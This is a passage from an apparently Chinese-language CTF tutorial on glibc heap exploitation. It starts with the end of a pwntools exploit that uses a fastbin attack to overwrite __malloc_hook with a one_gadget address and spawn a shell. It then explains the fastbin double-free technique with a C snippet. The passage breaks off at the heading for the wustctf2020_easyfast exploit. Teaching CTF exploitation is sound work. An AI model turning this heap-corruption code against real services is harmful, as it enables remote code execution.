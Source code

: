     malloc_hook = libc_addr + 0x3c4b10
    info('the addr of malloc_hook is {}'.format(hex(malloc_hook)))

    # 接下来是fastbin attack
    allocate(0x80) # 还原
    # 此时到这里 前面几个chunk不管了 接下来是以chunk4开始的fast bin大小的chunk
    allocate(0x60) # chunk4
    allocate(0x60) # chunk5
    free(5)
    payload = b'd'*0x60 + p64(0x70) + p64(0x71) + p64(fake_chunk_addr)
    fill(4, len(payload), payload)
    allocate(0x60) # 还是chunk5
    allocate(0x60) # chunk6

    one_gadget = 0x4526a
    payload = b'a'*(0x23 - 0x10) + p64(libc_addr + one_gadget)
    fill(6, len(payload), payload)

    allocate(0x10)
    sh.interactive()

### Double Free

顾名思义，也就是将一个已经在`fastbins`里面的`chunk`再次添加到`fastbins`里面去，添加完成后就会有两个同样的`chunk`在一个`bins`里面。

比如：

    void* chunk1 = malloc(0x10);
    void* chunk2 = malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

这样一来，在`fastbins`的大小为`0x20`的`bin`中，就会有：

![image-20230217172959638](image-20230217172959638.png)

因为`chunk1`指向`chunk2`，因此最右边的`chunk1`也会指向`chunk2`。

**值得注意的是，`fastbin`会对直接与`main arena`连接的`chunk`进行检查，因此必须借助第二个`chunk`才可以让两个一样的`chunk`都在同一个`bins`里面。**

有什么用呢？

若此时我们再申请一个`chunk`，那么左边的`chunk1`将会被申请到，若我们能够修改`chunk1`，便相当于修改了还在`fastbins`里面的右边的`chunk`的`fd`指针。如此以来，若当目前在`fastbins`里面的`chunk`都被`free`了，由于最右边的那个`chunk1`的`fd`指针是我们设计的值，那么接下来再进行`malloc`操作时，便会将我们设计的值作为地址，将我们指定的地址作为一个`chunk`返回给我们。相当于是实现了一个任意地址写的功能。

**但没有那么简单，我们设计的值作为地址的地方要作为`chunk`返回，必须要满足一个条件，即这个`chunk`的`size`值必须和`bins`单链表里面的其他`chunk`相同。**这样一来就没有问题了。

#### 例题wustctf2020_easyfast

exp
